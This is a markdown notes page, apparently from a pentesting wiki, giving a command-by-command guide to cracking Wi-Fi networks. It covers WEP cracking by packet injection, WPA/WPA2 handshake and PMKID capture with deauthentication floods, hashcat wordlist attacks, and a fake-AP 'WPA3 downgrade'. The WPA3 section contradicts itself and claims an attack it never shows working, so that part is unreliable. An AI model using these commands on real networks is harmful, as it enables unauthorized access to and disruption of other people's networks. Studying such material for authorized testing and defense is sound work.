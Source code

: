 ```yaml
---
title: Wireless
layout: page
parent: network
---
```


# Wireless

<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
1. TOC
{:toc}
</details>

---

## Setup

### Monitor mode

First off, you need to set up your wifi interface in monitor mode. To do so, you
need to know the name of your wifi interface. You can find it by running the
following command:

```bash
ip addr
```

This will list all the network interfaces on your system. Look for the one that
corresponds to your wifi adapter. It is usually named `wlan0`, `wlan1`, `wlo1`
or something similar. Once you have identified your wifi interface, you can set
it to monitor mode using the following commands :

```bash
sudo airmon-ng check kill
interface="wlo1"
sudo airmon-ng start "${interface}"  # start monitor mode
interface="${interface}mon"
```

### Network scanning

Now, you can scan for wifi networks using the following command:

```bash
sudo airodump-ng "${interface}"
```

or

```bash
sudo airodump-ng "${interface}" --essid "MyNetworkName"
```

This will display a list of all the wifi networks in range, and note the BSSID
(MAC address) and channel of the target network.

```bash
channel="6" # 11, ...
bssid="AA:BB:CC:DD:EE:FF"
```

## WEP cracking

### Capture packets

To crack WEP, you need to capture packets from the target network. You can do
this using the following command:

```bash
sudo airodump-ng --channel "$channel" --bssid "$bssid" --write outputdump "$interface"
```

You want a lot of Data packets (not just Beacons).

### Speed up the process

To speed up the process, you can use the following command to inject packets
into the network:

```bash
sudo aireplay-ng --fakeauth 0 -a "$bssid" "$interface"
```

This will authenticate you to the network and allow you to capture more packets,
then you can use the following command to generate ARP requests:

```bash
sudo aireplay-ng --arpreplay -b "$bssid" "$interface"
```

This will generate a lot of traffic and help you capture more packets.

### Cracking the WEP key

Once you have captured enough packets (at least 50000 IVs, recommended 200000),
you can crack the WEP key using the following command:

```bash
aircrack-ng outputdump
```

This will attempt to crack the WEP key using the captured packets. If
successful, it will display the WEP key in the terminal.

## WPA/WPA2 cracking

### Option 1 (easier)

To crack WPA/WPA2, you need to capture a 4-way handshake. To do so, you have to
capture the handshake when a client connects to the network, so start the
airodump-ng command to capture packets:

```bash
sudo airodump-ng --channel "$channel" --bssid "$bssid" --write out "$interface"
```

If a client is connected to the network, you will see the handshake in the
terminal. If not, you can use the following command to deauthenticate a client
and force it to reconnect in another terminal:

```bash
sudo aireplay-ng --deauth 10 -a "$bssid" "$interface"
# or
sudo aireplay-ng --deauth 10 -a "$bssid" -c "$station" "$interface"
```

Once you have captured the handshake, you can crack the WPA/WPA2 key using a
wordlist. You can use the following command to crack the key:

```bash
aircrack-ng -w wordlist.txt capture.pcap
```

This will attempt to crack the WPA/WPA2 key using the wordlist provided. If
successful, it will display the WPA/WPA2 key in the terminal. Note that if the
ESSID is hidden, you will need to use the `-e` option to specify the ESSID when
cracking the key.

### Option 2 (harder but better)

A way faster and more successful alternative to the previous method is to use
`hcxdumptool` to capture the handshake or the PMKID and then crack it with
`hashcat`. This makes it more likely to succeed than the previous method since
we could only use the handshake with it, and this method allows us to use
`hashcat` to crack the hash which is way faster than `aircrack-ng`.

First, we need to do a dump using `tcpdump` :

```bash
sudo tcpdump -s 65535 -y IEEE802_11_RADIO "wlan addr3 $bssid or wlan addr3 ffffffffffff" -ddd > output.bpf
```

Then, we can use `hcxdumptool` to capture the handshake or the PMKID, and it is
mandatory to add band information to the channel number (e.g. 12a):

- band a: NL80211_BAND_2GHZ
- band b: NL80211_BAND_5GHZ
- band c: NL80211_BAND_6GHZ

Thus, you can use the following command:

```bash
band="a" # or b,c
sudo hcxdumptool -i "$interface" -c "$channel$band" --bpf=output.bpf -w output.pcapng
```

This will create a pcapng file with the captured packets, you need to wait for
either the EAPOL handshake symbolized by the '3' or the PMKID symbolized by the
'P' to have a + under them to know that you have captured one of them, allowing
you to try to crack the hash.

You can use the following command to deauthenticate a client and force it to
reconnect in another terminal:

```bash
# To broadcast:
sudo aireplay-ng --deauth 0 -a "$bssid" "$interface"
# or
sudo aireplay-ng --deauth 0 -a "$bssid" -c "$station" "$interface"
```

Now, we need to convert the pcapng file to the specific hash that `hashcat` can
use. To do this, we can use the following command:

```bash
hcxpcapngtool -o output.hc22000 output.pcapng
```

Finally, we can use [`hashcat`](https://n4c.hadi.diy/cracking/hash.html#hashcat)
to crack the hash. You will need to import the `cracking` module. You can use
the following command to try to crack the hash using a wordlist and a rule file,
but bruteforce is also possible for wireless cracking.

```bash
hashcat -m 22000 -a 0 -o output -r /tmp/OneRuleToRuleThemStill/OneRuleToRuleThemStill.rule output.hc22000 /tmp/wordlists/passwords/most_used_passwords.txt -w 4 --opencl-device-types 1,2
```

## WPA3 downgrade

Note that this only allows us to shutdown traffic on the network, but not to
capture the handshake. To do this, we need to change our approach on the WPA2 AP
part.

### Capture packets

To crack WPA3, you need to capture packets from the target network. You can do
this using the following command:

```bash
sudo airodump-ng --channel "$channel" --bssid "$bssid" "$interface"
```

### Deauthenticate a client

To deauthenticate a client and force it to reconnect, you can use the following
command:

```bash
sudo aireplay-ng --deauth 0 -a "$bssid" "$interface"
# or
sudo aireplay-ng --deauth 0 -a "$bssid" -c "$station" "$interface"
```

### Fake a WPA2 AP

To fake a WPA2 AP, you can use the following command:

```bash
sudo airbase-ng -e "$ssid" -c "$channel" -P -C 30 -Z 4 "$interface"
```

This will create a fake AP with the specified SSID and channel, however, this is
not a true WPA2 AP, which does not allow us to capture the handshake. To do
this, we need to use a different method. This is the only thing missing to make
WPA3 cracking work.

Conceal the WPA3 handshake by capturing it with airodump-ng:

```bash
sudo airodump-ng --channel "$channel" --bssid "$fake_bssid" --write out "$interface"
```

Once you have captured the handshake, you can crack the WPA3 key using a
wordlist. You can use the following command to crack the key:

```bash
aircrack-ng -w "$wordlist" output.pcap
```

This will attempt to crack the WPA3 key using the wordlist provided. If
successful, it will display the WPA3 key in the terminal.

## Resetting the interface

Once you are done with the cracking, you can reset your wifi interface to its
normal mode using the following command:

```bash
sudo airmon-ng stop "$interface"
```

This will stop the monitor mode and reset the interface to its normal mode. You
can also use the following command to restart the network manager:

```bash
sudo systemctl restart NetworkManager
```

This will restart the network manager and allow you to connect to wifi networks
again. If you are using a different network manager, rebooting your system
should also work.
